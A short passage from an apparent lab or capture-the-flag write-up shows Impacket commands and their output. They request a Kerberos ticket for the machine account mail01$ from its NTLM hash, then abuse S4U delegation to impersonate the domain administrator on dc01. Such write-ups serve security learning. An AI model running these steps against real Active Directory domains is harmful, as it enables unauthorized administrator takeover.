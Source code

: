 For the proper kerberos flow I requested a TGT for mail01$ then requested a cifs ticket.
```
$ getTGT.py -hashes :0f916c5246fdbc7ba95dcef4126d57bd 'hybrid.vl/mail01$'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in mail01$.ccache

$ KRB5CCNAME=$(pwd)/mail01\$.ccache getST.py -spn 'cifs/dc01' -impersonate administrator -dc-ip '10.10.215.165' 'hybrid.vl/mail01$' -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_dc01@HYBRID.VL.ccache
```
